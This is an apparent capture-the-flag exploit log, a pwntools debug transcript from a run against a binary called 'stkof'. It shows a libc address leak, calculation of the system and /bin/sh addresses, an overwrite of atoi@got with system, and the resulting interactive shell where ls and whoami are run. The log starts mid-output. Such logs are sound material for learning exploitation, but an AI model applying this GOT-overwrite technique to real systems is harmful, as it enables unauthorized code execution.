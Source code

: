 ```powershell
    'FAIL\n'
[*] Leaking address...
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0xa bytes:
    00000000  a0 f6 50 a8  38 7f 0a 4f  4b 0a                     │··P·│8··O│K·│
    0000000a
[+] puts address : 0x7f38a850f6a0
[*] Finding offset in libc...
[+] atoi offset: 0x6f6a0
[*] Calculating libc address...
[+] Libc address: 0x7f38a84a0000
[*] Calculating system & /bin/sh address...
[+] system address: 0x7f38a84e53a0
[+] /bin/sh address: 0x7f38a862ce17
[*] Changing atoi@got --> system@got...
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x2 bytes:
    '9\n'
[DEBUG] Sent 0x9 bytes:
    00000000  a0 53 4e a8  38 7f 00 00  0a                        │·SN·│8···│·│
    00000009
[DEBUG] Received 0x3 bytes:
    'OK\n'
[*] Now atoi@got is system@got, so just pass the string '/bin/sh' to atoi
[*] Actually we called system('/bin/sh') !
[DEBUG] Sent 0x8 bytes:
    00000000  17 ce 62 a8  38 7f 00 00                            │··b·│8···│
    00000008
[*] Ready in 5 seconds...
[+] PWN!!
[*] Switching to interactive mode

$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x19 bytes:
    00000000  73 68 3a 20  31 3a 20 17  ce 62 a8 38  7f 3a 20 6e  │sh: │1: ·│·b·8│·: n│
    00000010  6f 74 20 66  6f 75 6e 64  0a                        │ot f│ound│·│
    00000019
sh: 1: \x17b\xa88\x7f: not found
[DEBUG] Received 0x1e bytes:
    'FAIL\n'
    'sh: 1: s: not found\n'
    'FAIL\n'
FAIL
sh: 1: s: not found
FAIL
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x28 bytes:
    'exp.py\tstkof  stkof_patch  test  test.c\n'
exp.py    stkof  stkof_patch  test  test.c
[DEBUG] Received 0x5 bytes:
    'FAIL\n'
FAIL
$ whoami
```